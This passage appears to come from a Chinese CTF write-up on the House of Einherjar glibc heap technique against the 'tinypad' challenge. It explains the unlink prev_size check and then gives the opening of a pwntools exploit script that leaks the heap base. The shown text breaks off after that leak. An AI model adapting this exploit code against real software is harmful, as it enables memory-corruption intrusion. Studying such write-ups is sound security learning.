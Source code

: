 ![](/picture/heap_related/House of Einherjar/3.png)





2.unlink的时候的对大小的检查，由于上面我们修改了size，所以对下一个chunk的prev_size也需要伪造。

## unlink

| 检查目标              | 检查条件                                                     | 报错信息                                 |
| --------------------- | ------------------------------------------------------------ | ---------------------------------------- |
| size **vs** prev_size | chunksize(P) != prev_size (next_chunk(P))                    | corrupted size vs. prev_size             |


最终选择的伪造(注意这里连向unsorted bin的双链也不能断)

![](/picture/heap_related/House of Einherjar/4.png)

最终exp

```python
from pwn import*
#context.log_level = 'debug'
context.update(arch='amd64',os='linux',timeout=1)
p = process('./tinypad')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

def pr(a,addr):
	log.success(a+'===>'+hex(addr))

def add(size, content='a'):
    p.recvuntil('(CMD)>>> ')
    p.sendline('a')
    p.recvuntil('(SIZE)>>> ')
    p.sendline(str(size))
    p.recvuntil('(CONTENT)>>> ')
    p.sendline(content)


def edit(idx, content):
    p.recvuntil('(CMD)>>> ')
    p.sendline('e')
    p.recvuntil('(INDEX)>>> ')
    p.sendline(str(idx))
    p.recvuntil('(CONTENT)>>> ')
    p.sendline(content)
    p.recvuntil('Is it OK?\n')
    p.sendline('Y')


def delete(idx):
    p.recvuntil('(CMD)>>> ')
    p.sendline('d')
    p.recvuntil('(INDEX)>>> ')
    p.sendline(str(idx))

add(0x100)
add(0x100)
add(0x100)
add(0x100)
delete(3)
delete(1)
p.recvuntil('INDEX: 1')
p.recvuntil('CONTENT: ')
heapbase = u64(p.recvuntil('\n')[:-1].ljust(8,'\x00')) -0x220
```